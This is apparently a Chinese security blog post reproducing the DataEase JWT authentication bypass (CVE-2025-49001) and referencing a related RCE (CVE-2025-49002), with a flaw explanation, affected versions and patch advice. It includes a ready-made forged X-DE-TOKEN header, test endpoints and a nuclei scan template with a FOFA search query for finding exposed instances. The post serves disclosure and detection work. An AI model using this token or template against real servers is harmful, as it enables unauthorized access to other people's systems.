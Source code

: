 #  【漏洞复现】Dataease JWT 认证绕过漏洞/远程代码执行（CVE-2025-49001/CVE-2025-49002）  
稻草人  玄武盾网络技术实验室   2025-06-26 01:00  
  
免责声明：本文仅供安全研究与学习之用，严禁用于非法用途，违者后果自负。  
##   
## 漏洞介绍  
  
DataEase 是一款开源的数据分析平台，提供丰富的数据可视化和分析功能，帮助用户轻松地进行数据探索和决策支持，CVE-2025-49001 是由于JWT校验机制错误导致攻击者可伪造JWT令牌绕过身份验证流程，CVE-2025-49002 是由于H2数据库模块没有严格过滤用户输入的JDBC连接参数，可使用大小写绕过补丁。攻击者可利用这些漏洞实现未授权代码执行，威胁用户数据和系统的安全。  
## 影响版本  
  
DataEase <= 2.10.8  
## 漏洞复现  
  
CVE-2025-49001   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKRsJ9YvJySbUjAYkdlh4U6WKf8Acc3ytA5FcBYFCXJhTVNcuqOKVUOX7lGjbnCTOp7TDOFd3o3Qw/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  
```
X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8
```  
  
  
可以通过请求以下接口进行验证，无漏洞则会返回500或401  
```
/de2api/license/version
/de2api/user/info
/de2api/login/refresh
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKRsJ9YvJySbUjAYkdlh4U62bolhTaMuzCelQg0aHQmoSwL62qoIIjb5wBx6jIkbYyeDbeXfl44eA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKRsJ9YvJySbUjAYkdlh4U6uwicLKZEXzruTicDicrTc9iaEtwia0x9Gl02pCPNUuDLXIAxdK5zINdI5Ag/640?wx_fmt=png&from=appmsg "")  
##   
## 漏洞分析  
  
CVE-2025-49001   
  
通过 JWT 解密了 token，获取了 uid 和 oid 的值，并没有使用当前秘钥来验证 token 的合法性，可以使用任意secret来伪造一个符合以下格式的JWT token  
```
{
  "uid": 1,
  "oid": 1
}
```  
  
  
具体分析见原文  
```
https://github.com/dataease/dataease/security/advisories/GHSA-xx2m-gmwg-mf3r
```  
  
  
CVE-2025-49002  
```
https://github.com/dataease/dataease/security/advisories/GHSA-999m-jv2p-5h34
```  
  
## nuclei脚本  
```
id: dataease-cve-2025-49001

info:
  name: dataease-cve-2025-49001-bypass
  author: PokerSec
  severity: high
  metadata:
    fofa-search: title="DataEase"

requests:
  - raw:
      - |-
        GET /de2api/user/info HTTP/1.1
        Host: {{Hostname}}
        Accept: application/json, text/plain, */*
        out_auth_platform: default
        X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '"id":"1"'
          - 'oid'
          - 'name'
        condition: and
      - type: status
        status:
          - 200
```  
##   
## 修复意见  
  
更新至最新安全版本，目前官方已有可更新版本DataEase >= 2.10.10  
  
官方补丁下载地址：  
  
https://github.com/dataease/dataease/releases/tag/v2.10.10  
  
https://dataease.io/  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/UM0M1icqlo0knIjq7rj7rsX0r4Rf2CDQylx0IjMfpPM93icE9AGx28bqwDRau5EkcWpK6WBAG5zGDS41wkfcvJiaA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
声明：  
技术文章均收集于互联网，仅作为本人学习、记录使用。  
侵权删  
！  
！  
！  
  
  
  
